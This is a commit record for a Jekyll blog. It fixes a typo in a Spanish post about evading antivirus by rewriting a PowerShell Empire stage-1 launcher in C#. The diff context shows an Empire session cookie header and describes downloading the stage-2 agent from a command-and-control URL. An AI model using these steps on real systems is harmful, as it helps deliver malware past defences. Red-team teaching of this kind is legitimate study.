

Before and after one commit to juliourena/juliourena.github.io, a Jekyll site: the page built from _posts/2018-7-24-AV-Evasion-Converting-PowerEmpire-Stage-1-to-CSharp-ES.md, in a window 1280 px wide and 900 px high, scrolled down 5957 px. Shown: the part 361-685 px from the top of the window, without its empty margins (0-999 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
Fix post

````diff
--- a/_posts/2018-7-24-AV-Evasion-Converting-PowerEmpire-Stage-1-to-CSharp-ES.md
+++ b/_posts/2018-7-24-AV-Evasion-Converting-PowerEmpire-Stage-1-to-CSharp-ES.md
@@ -155,7 +155,7 @@ wc.Headers["User-Agent"] = ua;
 wc.Headers["Cookie"] = "session=968PH6bE9CDkwYGfsUPraz0x5PQ=";
 ```
 
-Luego, debemos especificar la dirección del servidor, el puerto y la ubicación de destino, en nuestro caso esta es la URL completa http://192.168.6.119:80/CWoNaJLBo/VTNeWw11212/. Después de eso, llamamos al método DownloadData de la clase Web.Client para guardar los datos en la variable $data. Si tienes curiosidad acerca de los datos con tenidos en esta $data (stae 2) generalmente se encuentra en /opt/Empire/data/agent/stagers/http.ps1.
+Luego, debemos especificar la dirección del servidor, el puerto y la ubicación de destino, en nuestro caso esta es la URL completa http://192.168.6.119:80/CWoNaJLBo/VTNeWw11212/. Después de eso, llamamos al método DownloadData de la clase Web.Client para guardar los datos en la variable $data. Si tienes curiosidad acerca de los datos con tenidos en esta $data (stage 2) generalmente se encuentra en /opt/Empire/data/agent/stagers/http.ps1.
 
 ```
 # PoweShell Set Server Address and Download the data.
````
Also changed, not shown: other parts of _posts/2018-7-24-AV-Evasion-Converting-PowerEmpire-Stage-1-to-CSharp-ES.md (+1 -1 lines).
